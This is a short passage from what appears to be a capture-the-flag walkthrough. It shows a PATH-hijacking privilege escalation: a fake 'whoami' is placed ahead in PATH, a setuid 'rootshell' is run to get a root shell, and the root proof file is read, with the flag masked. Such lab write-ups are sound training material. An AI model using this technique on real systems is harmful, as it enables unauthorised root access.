 ### add the fake `whoami` at the beginning of the current path environment
```bash
$ export PATH=/tmp:$PATH
```

### execute `rootshell` and get the second flag
```bash
$ cd /home/tom
$ ./rootshell
checking if you are tom...
you are: tom
access granted.
# cd /root
cd /root
# ls
ls
flag.txt  proof.txt
# cat proof.txt
cat proof.txt
c*******************************b
```

Pwned! <@:-)
